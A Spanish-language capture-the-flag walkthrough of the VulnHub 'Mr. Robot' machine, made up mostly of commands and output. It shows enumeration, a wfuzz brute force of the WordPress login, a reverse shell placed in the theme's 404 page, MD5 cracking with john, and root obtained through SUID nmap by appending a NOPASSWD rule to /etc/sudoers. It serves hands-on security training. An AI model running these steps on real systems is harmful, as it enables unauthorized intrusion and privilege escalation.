






Resolución de la máquina Mr. Robot de la plataforma de VulnHub
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 192.168.100.11
Nmap scan report for 192.168.100.11
PORT STATE SERVICE
80/tcp open http
443/tcp open https
Al no haber nada interesante buscaremos directorios
❯ gobuster dir -u 192.168.100.11 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
===============================================================
[+] Threads: 100
[+] Url: http://192.168.100.11
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-admin (Status: 301) [Size: 239] [--> http://192.168.100.11/wp-admin/]
/wp-content (Status: 301) [Size: 241] [--> http://192.168.100.11/wp-content/]
/blog (Status: 301) [Size: 235] [--> http://192.168.100.11/blog/]
/dashboard (Status: 302) [Size: 0] [--> http://192.168.100.11/wp-admin/]
/robots (Status: 200) [Size: 41]
Si miramos el robots encontramos dos archivos asi que los descargamos
❯ curl 192.168.100.11/robots
User-agent: *
fsocity.dic
key-1-of-3.txt
❯ wget 192.168.100.11/fsocity.dic 192.168.100.11/key-1-of-3.txt
Longitud: 7245381 (6.9M) [text/x-c]
Grabando a: «fsocity.dic»
fsocity.dic 100%[======================================>]
«fsocity.dic» guardado [7245381/7245381]
Longitud: 33 [text/plain]
Grabando a: «key-1-of-3.txt»
key-1-of-3.txt 100%[======================================>]
«key-1-of-3.txt» guardado [33/33]
El primero contiene una flag y el segundo una lista de mas de 800k palabras
❯ cat key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
❯ wc -l fsocity.dic
858160 fsocity.dic
También habiamos visto un /wp-admin, donde podemos ver que el usuario admin no existe

Podemos probar personajes de la serie, y elliot existe mas no sabemos su contraseña

En este punto podemos aplicar fuerza bruta con el diccionario que encontramos al inicio
❯ wfuzz -c -w ./fsocity.dic -u http://192.168.100.11/wp-login.php -d "log=elliot&pwd=FUZZ&wp-submit=Log In&redirect_to=http://192.168.100.11/wp-admin/&testcookie=" -H "Cookie: wordpress_test_cookie=WP Cookie check" -t 200 --hl 59
Target: http://192.168.100.11/wp-login.php
Total requests: 858160
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000858151: 302 0 L 0 W 0 Ch "ER28-0652"
Encontramos que ER28-0652 es una contraseña valida, ahora iniciamos sesión

Podemos ir a apariencia y editor para modificar un php

A la derecha tenemos algunos, podemos modificar el 404 con una reverse shell


Simplemente nos queda hacer una peticion a algo que no exista para invocar el 404
❯ curl 192.168.100.11/pwned
Podemos listar con netcat o pwncat-cs para una shell mas interactiva
❯ sudo pwncat-cs -lp 443
Welcome to pwncat 🐈!
received connection from 192.168.100.11
0.0.0.0:443: normalizing shell path
192.168.100.11: registered new host w/ db
(local) pwncat$ back
(remote) daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ bash
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ hostname -I
192.168.100.11
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$
Buscando archivos interesantes encontramos password.raw-md5 en /home/robot
daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$
Aplicamos fuerza bruta con john y conseguimos la contraseña de robot
❯ cat hash
robot:c3fcd3d76192e4007dfb496cca67e13b
❯ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash --format=Raw-MD5
Loaded 1 password hash (Raw-MD5 [MD5 128/128 XOP 4x2])
abcdefghijklmnopqrstuvwxyz (robot)
Session completed
En este punto podemos migrar a robot y conseguir otra flag
daemon@linux:/home/robot$ su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ hostname -I
192.168.100.11
robot@linux:~$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$
Si buscamos por privilegios suid encontramos nmap entre otros
robot@linux:~$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:~$
Podemos guiarnos de gtfobins para conseguir shell como root y la ultima flag
robot@linux:~$ nmap --interactive
Welcome to Interactive Mode -- press h <enter> for help
nmap> !echo 'ALL ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
waiting to reap child : No child processes
nmap> !sudo su
root@linux:/home/robot# cd
root@linux:~# id
uid=0(root) gid=0(root) groups=0(root)
root@linux:~# hostname -I
192.168.100.11
root@linux:~# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
root@linux:~#